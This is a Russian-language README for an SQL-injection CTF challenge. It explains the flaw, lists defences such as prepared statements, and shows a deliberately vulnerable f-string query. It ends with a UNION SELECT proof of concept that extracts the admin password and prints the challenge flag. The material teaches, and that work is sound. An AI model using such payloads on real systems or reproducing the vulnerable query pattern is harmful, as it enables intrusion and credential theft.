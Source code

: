 # SQL Injection CTF Challenge

Этот репозиторий содержит CTF-задачу, демонстрирующую уязвимость SQL Injection (SQLi) в веб-приложении. Задача позволяет изучить, как возникает уязвимость, как её эксплуатировать и как защититься от неё.

## Описание уязвимости

### Что такое SQL Injection?
SQL Injection — это уязвимость, которая возникает, когда злоумышленник может внедрить произвольный SQL-код в запросы к базе данных. Это происходит из-за недостаточной проверки или санитизации пользовательского ввода.

### Почему возникает уязвимость?
Уязвимость возникает, когда:
1. Приложение напрямую использует пользовательский ввод в SQL-запросах.
2. Входные данные не проверяются и не экранируются.
3. Приложение не использует подготовленные выражения (prepared statements) или параметризованные запросы.

## Способы защиты от уязвимости

1. Использование подготовленных выражений (prepared statements):
Всегда используйте параметризованные запросы или подготовленные выражения. Пример для Python (с использованием `PyMySQL`):
   ```python
   cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
2. Валидация и санитизация входных данных: Проверяйте и очищайте все пользовательские данные перед использованием в SQL-запросах. Используйте регулярные выражения для удаления нежелательных символов.

3. Ограничение прав доступа к базе данных: Используйте учётные записи с минимальными необходимыми привилегиями.

4. Использование ORM: Используйте ORM (Object-Relational Mapping) для автоматической защиты от SQLi.

Запуск приложения
Требования
Установленный Docker и Docker Compose.

Команды для запуска
Клонируйте репозиторий:
    git clone https://github.com/nnikk777/ctf-2
    cd sqli-ctf
Запустите докер: 
    docker-compose up --build
Откройте веб-браузер и перейдите по адресу:
    http://localhost:5000

В данном приложении уязвимость SQL Injection присутствует на странице отображения статей. Параметр article_id передаётся напрямую в SQL-запрос без какой-либо проверки или санитизации. Это позволяет злоумышленнику внедрить произвольный SQL-код.

Пример уязвимого кода:

python

    sql = f"SELECT text FROM articles WHERE id = {article_id}"
    cursor.execute(sql)
POC-эксплоит для получения флага
Шаг 1: Найдите уязвимость
Перейдите на главную страницу приложения:

    http://localhost:5000
Шаг 2: Используйте SQL Injection
Введите следующий URL для получения пароля администратора:


    http://localhost:5000/?article_id=-1 UNION SELECT 1,password,3 FROM users WHERE username='admin'-- 
Шаг 3: Получите флаг
На странице отобразится пароль администратора (флаг) в виде:


    CTF{Uni0n_S3l3ct_1s_P0wer}
Шаг 4: Используйте флаг для входа
Перейдите на страницу входа:


    http://localhost:5000/login
Введите логин admin и полученный пароль для получения флага.
